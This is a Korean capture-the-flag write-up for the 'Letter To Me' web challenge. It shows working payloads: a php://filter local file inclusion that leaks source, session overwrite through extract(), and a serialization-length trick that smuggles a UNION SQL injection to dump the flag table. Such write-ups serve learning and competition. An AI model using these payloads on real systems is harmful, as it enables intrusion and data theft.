




# Letter To Me (300 pts.)




먼저 문제 사이트를 들어가서 register를 시도해보기로 했다.


무슨 문제 사이트인데 초대받은 사람만 가입할 수 있다고 한다.

근데 주소가 `http://lettertome.eatpwnnosleep.com/?page=register` 이렇다. 뭔가 LFI공격이 될 것같다.

`http://lettertome.eatpwnnosleep.com/?page=php://filter/convert.base64-encode/resource=main`



된다.

이제 소스를 모두 긁어올 수 있게 되었다.

그렇게 소스를 보면 `index.php`에 `extract`를 사용하는 부분을 볼 수 있다.

```php
<?php
   require "conn.php";
   @extract($_GET);
   @extract($_POST);

   $page = isset($page) ? $page : "main";
   if(preg_match("uploads", $page))
   {
      die("No hack");
   }
   session_start();
?>
```

`extract`는 php의 다른 변수들의 값을 바꿀 수 있기에 `$_SESSION[user]`에 `admin`을 넣는다.

근데 `session_start();`가 `extract`보다 밑에있다. 그렇다면 `$_SESSION`에 값을 넣을 수 없다.

해결방법은 간단하게 `?page=index`해주게 되면 `index`가 `index`를 부른다.

payload : `http://lettertome.eatpwnnosleep.com/?page=index&_SESSION[user]=admin`

`admin`으로의 로그인에 성공했으며 `admin`계정으로 계정을 생성할 수 있다.



이제 인젝션 공격을 할 수 있는 부분을 찾아보자.

### models.php

```php
<?php
 function add()
 {
    global $DB;
    $str = serialize($this);
    $str = $this->filter($str);

    $user = mysql_real_escape_string($this->user);
    $str = mysql_real_escape_string($str);
    $DB->execute("insert into notes values (\"${user}\", \"${str}\")");
 }

 function filter($str)
 {
    global $profanity_word_replace;
    $filter_word = array("s**t", "f**k", "as*", "bi**h", "H**l");
    foreach($filter_word as $word)
    {
       $replace = str_repeat($profanity_word_replace, strlen($word));
       $word = preg_quote($word);
       $str = eregi_replace($word, $replace, $str);
    }
    return $str;
 }

 function resolve_file()
 {
    global $DB;
    $id = $this->attached_file;
    if($id)
    {
      $DB->execute("select realname, path from files where id=${id}");
      return $DB->fetch_arr();
   }
   return NULL;
 }
 ?>
```
`$profanity_word_replace = '*' // conn.php`

`add`에서 `serialize`를 하고 `filter`함수를 실행한다.

`filter`에선 `word`를 검사하고 그걸 `profanity_word_replace`를 `repeat`하여 덮어버린다. ex) f\*\*k -> \*\*\*\*

`resolve_file`에선 `attached_file`에 들어간 값을 `id`로 `realname`, `path`를 가져오는데 여기서 sql injection이 가능하다.

문제는 `attached_file`에 어떻게 인젝션 코드를 넣을것인가이다.

먼저 `serialize`된 결과를 보자.

`O:4:"note":3:{s:4:"user";s:4:"asdf";s:6:"letter";s:6:"qwerqw";s:13:"attached_file";N;}`

`letter`에 f\*\*k을 적고 `profanity_word_replace`에
`asdf";s:13:"attached_file";s:161:"-1 union select group_concat(table_name,0x3a,column_name),group_concat(table_name,0x3a,column_name) from information_schema.columns where table_schema=database()";}`를 넣으면 인젝션 성공

> payload : http://lettertome.eatpwnnosleep.com/?page=send&letter=f**k&profanity_word_replace=asdf";s:13:"attached_file";s:161:"-1 union select group_concat(table_name,0x3a,column_name),group_concat(table_name,0x3a,column_name) from information_schema.columns where table_schema=database()";}



> table : LTOM_Fl3g, column : flag

> payload : http://lettertome.eatpwnnosleep.com/?page=send&letter=f**k&profanity_word_replace=asdf";s:13:"attached_file";s:40:"-1 union select flag,flag from LTOM_Fl3g";}

### Flag : SCTF{Enj0y_y0ur_0nly_life}
